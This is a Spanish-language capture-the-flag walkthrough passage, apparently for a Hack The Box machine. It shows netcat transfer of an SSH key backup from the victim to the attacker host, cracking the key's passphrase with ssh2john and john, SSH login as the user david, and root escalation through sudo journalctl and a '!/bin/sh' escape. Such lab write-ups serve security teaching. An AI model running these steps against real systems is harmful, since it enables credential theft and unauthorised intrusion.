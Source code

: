 Intentamos ver si esta en el directorio 
```bash
 /home/david/public_www 
```
 y efectivamente. hay un fichero comprimido y nos vamos a transferir 
a nuestro equipo de atacante.

1. En el equipo de atacante

    ```bash
    nc -nlvp 443 > comprimido.tgz
    ```

1. En el equipo victima

    ```bash
    nc 10.10.14.20 443 < backup-ssh-identity-files.tgz
    ```

Descomprimimos el archivo con el comando

```bash
7z l comprimido.tgz
7z x comprimido.tgz
7z l comprimido.tar
7z x comprimido.tar 
```

Hay la clave privado del usuario david pero esta protegida por contraseña. La tenemos que romper.

### ssh2john {-}

```bash
ssh2john.py id_rsa > hash
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```

La contraseña de la id_rsa a sido crackeada y ya nos podemos conectar con ssh

```bash
ssh -i id_rsa david@10.10.10.165 
```

### Escalada de privilegio para root {-}

```bash
ls -l
#Output
bin

cd bin/
cat server-stats.sh
```

Vemos en este fichero que sudo puede ejecutar **journalctl**

Vamos a la pagina de [gtfobins](gtfobins.github.io) y buscamos por jounalctl

El **gtfobins** dice que hay que lanzar jounalctl con sudo y en otra linea poner 
```bash
 !/bin/sh 
```


> [!] NOTA: cuando pone ! en otra linea quiere decir que hay que ejecutarlo en modo less. O sea hay que reducir la terminal para que se pueda introducir un nuevo commando. En este caso !/bin/sh

Ya estamos root y seguimos mas hack que nunca.
